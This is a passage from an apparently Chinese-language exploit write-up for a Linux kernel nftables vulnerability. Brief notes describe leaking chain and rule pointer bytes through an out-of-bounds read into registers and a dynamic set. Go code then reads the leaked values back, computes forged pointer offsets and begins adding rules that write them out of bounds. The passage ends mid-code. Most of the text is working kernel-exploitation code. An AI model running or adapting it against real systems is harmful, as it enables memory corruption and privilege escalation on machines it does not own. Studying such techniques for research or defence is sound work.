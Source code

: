 my_chain的逻辑中会越界读，把chain、rule、last_rule部分指针字节保存到SrcRegData: 14~19位置  
  
SrcRegData: 14~19又作为值储存到Dynset中（键名由SrcRegKey:  8指定）  
  
读取set，计算好地址（具体偏移可以通过动态调试获得），再越界写入  
```
elems, err := conn.GetSetElements(&my_set)

  if err != nil {
    panic(err)
  }

  offsets := []uint16{0, 0, 0, 0, 0, 0}
  for _, elem := range elems {
    key := binary.LittleEndian.Uint32(elem.Key)
    val := binary.BigEndian.Uint16(elem.Val)
    offsets[key] = val
  }
  for i, v := range offsets {
    fmt.Printf("key:0x%x, val:0x%x\n", i, v)
  }

  chain_low_u16 := offsets[0]
  chain_high_u16 := offsets[1]
  rule_low_u16 := offsets[2]
  rule_hish_u16 := offsets[3]
  last_rule_low_u16 := offsets[4]
  fmt.Printf("chain_low_u16:0x%x rule_low_u16:0x%x last_rule_low_u16:0x%x\n",
    chain_low_u16, rule_low_u16, last_rule_low_u16)

  new_chain_low_u16 := chain_low_u16
  new_rule_low_u16 := rule_low_u16 - 0x40 - 2
  new_last_rule_low_u16 := new_rule_low_u16 + 8

  new_chain_low_u16_buff := make([]byte, 2)
  binary.BigEndian.PutUint16(new_chain_low_u16_buff, new_chain_low_u16)
  chain_high_u16_buff := make([]byte, 2)
  binary.BigEndian.PutUint16(chain_high_u16_buff, chain_high_u16)
  new_rule_low_u16_buff := make([]byte, 2)
  binary.BigEndian.PutUint16(new_rule_low_u16_buff, new_rule_low_u16)
  rule_high_u16_buff := make([]byte, 2)
  binary.BigEndian.PutUint16(rule_high_u16_buff, rule_hish_u16)
  new_last_rule_low_u16_buff := make([]byte, 2)
  binary.BigEndian.PutUint16(new_last_rule_low_u16_buff, new_last_rule_low_u16)
  new_last_rule_low_u16_buff2 := make([]byte, 2)
  binary.LittleEndian.PutUint16(new_last_rule_low_u16_buff2, new_last_rule_low_u16)

  conn.FlushChain(my_chain)
  conn.Flush()
  conn.AddRule(&nftables.Rule{
    Table: my_table,
    Chain: my_chain,
    Exprs: []expr.Any{
      &expr.Immediate{
        Register: 14,
        Data:     new_chain_low_u16_buff,
      },
      &expr.Immediate{
        Register: 15,
        Data:     chain_high_u16_buff,
      },
      &expr.Immediate{
        Register: 16,
        Data:     new_rule_low_u16_buff,
      },
```